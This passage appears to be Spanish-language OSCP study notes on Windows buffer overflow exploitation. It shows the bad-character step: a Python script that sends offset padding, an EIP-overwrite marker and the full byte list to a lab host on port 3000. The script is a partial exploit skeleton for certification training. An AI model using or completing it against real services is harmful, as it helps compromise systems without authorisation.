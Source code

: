 ~~~~python
		sys.exit()
~~~~

El resultado del EIP tiene que ser 424242
# Finding Bad Characters

1º El codigo se va a ir modificando a medida que completemos los pasos
[https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/finding-the-bad-charaters](https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/finding-the-bad-charaters)

2º Copiamos el codigo y modificamos los valores (VALOR_DEL_OFFSET, IP, PUERTO, FUNCION)
~~~~python
#!/usr/bin/python2.7

import sys, socket
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * VALOR_DEL_OFFSET + "B" * 4 + badchars

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.10.10.111',3000))
		s.send(('FUNCION /.:/' + shellcode))
		s.close()

	except:
		print "Error connecting to server"
		sys.exit()
~~~~

## Pasos de expotacion

### 1º set de badchars
